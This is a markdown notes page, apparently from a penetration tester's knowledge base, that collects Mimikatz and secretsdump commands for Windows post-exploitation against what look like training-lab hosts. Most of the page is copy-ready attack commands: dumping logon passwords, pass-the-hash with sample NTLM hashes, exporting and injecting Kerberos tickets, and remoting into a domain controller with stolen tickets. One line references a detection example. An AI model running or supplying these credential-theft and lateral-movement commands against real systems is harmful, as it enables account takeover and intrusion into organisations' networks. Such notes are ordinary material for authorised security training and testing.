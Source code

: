 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
---
```


[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
## Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

For Linux systems see a Python implementation: [pypykatz](https://github.com/skelsec/pypykatz)
## Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

## Usage 

```cmd-session
mimikatz.exe
```
### Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

### Dump Passwords

```cmd
privilege::debug
sekurlsa::logonpasswords
```
### Pass the Hash

Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```cmd-session
 mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

### Export Tickets

See [[Pass the Ticket (PtT)]]

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

> [!NOTE]
> At the time of writing, using Mimikatz version 2.2.0 20220919, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets `sekurlsa::tickets /export` do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use [[Rubeus]] to export tickets in base64 format.


##### Extract Kerberos Keys

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::ekeys
```

##### Pass the Key or OverPass the Hash

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

### Pass the Ticket

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```


### Pass The Ticket with PowerShell Remoting

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```
exit
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```